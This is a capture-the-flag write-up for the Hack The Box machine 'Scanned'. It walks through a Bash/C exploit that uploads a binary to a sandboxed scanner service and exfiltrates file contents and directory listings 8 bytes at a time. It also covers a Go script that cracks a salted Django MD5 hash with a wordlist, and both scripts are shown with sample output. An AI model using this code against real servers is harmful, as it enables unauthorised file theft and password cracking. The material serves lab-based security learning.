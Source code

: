 # Hack The Box. Machines. Scanned

Machine write-up: https://7rocky.github.io/en/htb/scanned

### `exploit.sh`

This Bash script is used to list directories and read files from the server. It has a C program embedded because we need to upload a compiled binary to the server in order to exfiltrate the information.

First of all, to use this script we must provide some parameters:

```bash
function help() {
  echo "[!] Usage: bash $0 <host> <f|d> <path-to-file|dir>"
	exit 1
}

host=$1

if [ "$2" = "f" ]; then
	read_file=1
	file=$3
elif [ "$2" = "d" ]; then
  read_file=0
	dir=$3
else
	help
fi
```

So we need to enter the host IP address where the web server is listening, then `f` to read a file or `d` to list a directory and finally the path.

After that, the C program is compiled. Then we upload it and filter the results as shown in the [write-up](https://7rocky.github.io/en/htb/scanned) (a bit enhanced here because of some edge cases):

```bash
res=$(curl $host/scanner/upload/ -sLF file=@exploit)

hex=$(echo "$res" \
  | grep execve \
  | awk -F = '{ print $3 }' \
  | sed 's/<\/pre>//g' \
  | awk -F x '{ printf "%16s\n", $2 }' \
  | tr ' ' 0)

echo "$hex" | xxd -r -p
echo
```

The file we upload is called `exploit`, which is the compiled binary from the C code.

For the C code, what's important to notice is that we need to output the information in parts of 8 bytes (the [write-up](https://7rocky.github.io/en/htb/scanned) shows how the information is exfiltrated). In order to do that, we have a function called `read_file`:

```c
void read_file(char* path) {
  unsigned long ret = 0l;
  char ret_string[8] = {0, 0, 0, 0, 0, 0, 0, 0};
  int fd = open(path, O_RDONLY);

  while (read(fd, ret_string, 8)) {
    ret = 0l;

    for (int i = 0; i < 8; i++) {
      ret <<= 8;
      ret += ret_string[i];
      ret_string[i] = 0;
    }

    log_syscall(ret);
  }

  close(fd);
}
```

Basically, it takes a file path and reads 8 bytes from it. The 8 bytes are stored in `ret_string`, which is a `char` array. In order to transform the string into a decimal number, we use the `ret` variable, where we shift 8 bits to the left and add the next byte of `ret_string`. Finally, we use `log_syscall` (from the machine's source code) to output the exfiltrated information.

To list directories we can output the listing into a file called `tmp_file` and then use `read_file` to exfiltrate the information. So this is the `main` function:

```c
int main() {
  DIR* dr;
  struct dirent *de;
  FILE* fp;
  int do_read_file = $do_read_file;

  if (do_read_file) {
    read_file("$file");
    return 0;
  }

  fp = fopen("tmp_file", "wb");
  dr = opendir("$dir");

  while ((de = readdir(dr)) != NULL) {
    fprintf(fp, "%s\n", de->d_name);
  }

  closedir(dr);
  fclose(fp);

  read_file("tmp_file");
  return 0;
}
```

Notice that `$do_read_file`, `$file` and `$dir` are not valid C variables but Bash variables. However, this C code is wrapped in a "heredoc" so we can use string interpolation in Bash to print the contents of those variables, so that the C code is valid and compiles correctly using this syntax:

```bash
gcc -o exploit -xc - <<- __EOF__
  // C code
__EOF__
```

An example of execution could be this one:

```console
$ bash exploit.sh d /
[!] Usage: bash exploit.sh <host> <f|d> <path-to-file|dir>

$ bash exploit.sh 10.10.11.141 d /
tmp_file
.
log
lib
..
proc
userprog
lib64
usr
bin

$ bash exploit.sh 10.10.11.141 f /proc/1/fd/3/../../../../../etc/hostname
scanned
```

### `crack.go`

This script is used to crack a hashed password in Django format:

```plaintext
md5$kL2cLcK2yhbp3za4w3752m$9886e17b091eb5ccdc39e436128141cf
```

This hash is composed of three parts (divided by `$`), which is parsed in the script:

```go
	full_hash := os.Args[2]
	splitted_hash := strings.Split(full_hash, "$")
	alg, salt, hash := splitted_hash[0], splitted_hash[1], splitted_hash[2]

	fmt.Printf("[*] Algorithm: \t %s\n", alg)
	fmt.Printf("[*] Salt: \t %s\n", salt)
	fmt.Printf("[*] Hash: \t %s\n\n", hash)
```

Once done, we open the wordlist file and begin computing hashes using the same algorithm and salt until we find a coincidende:

```go
	file, err := os.Open(os.Args[1])

	if err != nil {
		fmt.Printf("File '%s' not found\n", os.Args[1])
	}

	defer file.Close()

	scanner := bufio.NewScanner(file)

	for scanner.Scan() {
		password := scanner.Text()

		if crack(salt, password) == hash {
			fmt.Println("[+] Cracked:", password)
			break
		}
	}
```

The function that computes the hash is called `crack`:

```go
func crack(salt, password string) string {
	return fmt.Sprintf("%x", md5.Sum([]byte(salt+password)))
}
```

We can run it like this:

```console
$ go run crack.go
Usage: go run crack.go <wordlist> <hash>
exit status 1

$ go run crack.go $WORDLISTS/rockyou.txt 'md5$kL2cLcK2yhbp3za4w3752m$9886e17b091eb5ccdc39e436128141cf'
[*] Algorithm:   md5
[*] Salt:        kL2cLcK2yhbp3za4w3752m
[*] Hash:        9886e17b091eb5ccdc39e436128141cf

[+] Cracked: onedayyoufeellikecrying
```
